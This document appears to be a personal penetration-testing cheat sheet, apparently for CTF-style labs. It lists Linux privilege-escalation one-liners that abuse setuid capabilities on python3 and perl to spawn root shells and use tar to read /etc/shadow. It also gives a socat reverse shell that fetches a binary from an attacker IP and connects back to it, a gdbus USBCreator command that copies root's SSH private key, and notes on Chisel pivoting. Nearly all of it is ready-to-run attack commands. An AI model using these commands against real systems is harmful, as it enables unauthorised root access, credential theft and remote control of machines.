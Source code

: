 

**Capabilities**
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

1. The way capabilities work is like SUID. It allows us to execute some function as root. Always check capabilities >>> getcap -r / 2>/dev/null
Keep an eye on cap_setuid+ep or setuid capabilities mostly.

## `/usr/bin/python3 = cap_setuid+ep`
We can just exploit that like `/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")`

## `/usr/bin/perl = cap_setuid+ep`
Same like python, we can just do this `/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`

## `/usr/bin/openssl = cap_setuid+ep`
We can create our own OpenSSL engine in C (<openssl/engine.h>), and use the SETUID capabilities (<unistd.h>)
Use the `openssl_setuid.c`

## `/usr/bin/tar = cap_dac_read_search+ep`
In short, we can use tar as root, so we can:
- tar the shadow > `/usr/bin/tar cvf shadow.tar /etc/shadow`
- extract the tar > `/usr/bin/tar xvf shadow.tar`
- see the inside > `cat etc/shadow`



**Reverse Shell**
IF TRADITIONAL REVERSE SHELL DOESN'T WORK, USE SOCAT ONE!
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
Ex:
1. Download the socat binary: wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
2. Open a socat listener: socat file:`tty`,raw,echo=0 TCP-L:1234
3. Open a server to let the target download the socat: python3 -m http.server
4. Execute the RCE: wget -q 10.8.102.36:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.8.102.36:1234



**Gdbuss Root SSH Privesc**
1. gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/root_rsa true
https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/



**Chisel**
Essentially port forwarding services (http, ftp, smb, dll).
- If there's an attempt to SSH or something outside the docker container we are in and we cant access it. We need to socks proxy stuff it somehow.
- If we are trapped inside a docker container.
